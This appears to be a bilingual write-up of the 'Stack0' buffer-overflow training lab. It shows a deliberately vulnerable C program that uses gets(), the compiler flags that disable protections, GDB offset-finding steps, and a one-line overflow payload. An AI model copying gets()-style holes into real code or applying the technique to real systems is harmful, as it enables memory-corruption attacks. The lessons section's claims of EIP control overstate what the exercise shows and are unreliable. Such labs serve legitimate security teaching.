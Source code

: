 # Source code

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
```

# Explanation

1. **Compile**

```bash
gcc -m32 -std=gnu89 -fno-stack-protector -g -z execstack -no-pie Stack0.c -o Stack0
```

2. **Drop into GDB and locate vulnerable read**
```bash
gdb ./Stack0

(gdb) disassemble main
```
![Breakpoint](Images/BreakPointGets.png)

- Scan for call to `gets`/`strcpy`/`fgets` (whichever unsafe function used).
- Note its address, say `0x080491a6`.


3. **Break at that instruction**
```gdb
(gdb) break *0x080491a6
```

4. **Run a large dummy payload**
```gdb
#directly from GDB
(gdb) run < <(python3 -c "print('A'*200)")
```

5. **When it stops print the addresses**
```gdb
(gdb) print &buffer        # start of buffer
(gdb) print &modified     
```
![Disas](Images/GDBdisas.png)

This gives you the number of filler bytes you need to reach `target` (whether it’s a local var or saved RIP/EIP).

6. **Compute exact byte distance**
```gdb
(gdb) print (char*)&modified - (char*)&buffer #will find exact offset
64
```
![Offset](Images/OffsetStack0.png)

7. **Craft payload and execute**

```bash
python3 -c 'print("A"*64 + "B")' | ./Stack0
```
![Success](Images/Success.png)


# What I learned

- A basic stack-based buffer overflow can redirect execution with just user-supplied data—no need for advanced tricks.
- The magic number here is 64 bytes.
- GDB’s basics—disas, info registers, simple breakpoints—are enough to prove the takeover.
- Turning off modern flags (-fno-stack-protector, -z execstack, etc.) lets you see the raw bug in action.

# Ce que j’ai appris

- Un simple overflow sur la pile suffit à détourner le flux d’exécution ; pas besoin de gadgets sophistiqués.
- **64 octets** exactement : c’est la distance qui me donne la main sur EIP.
- Trois commandes GDB — `disas`, `break`, `info reg` — et le contrôle est évident.
- En désactivant les protections (`-fno-stack-protector`, `-z execstack`, `-no-pie`), on voit la vulnérabilité à l’état brut.
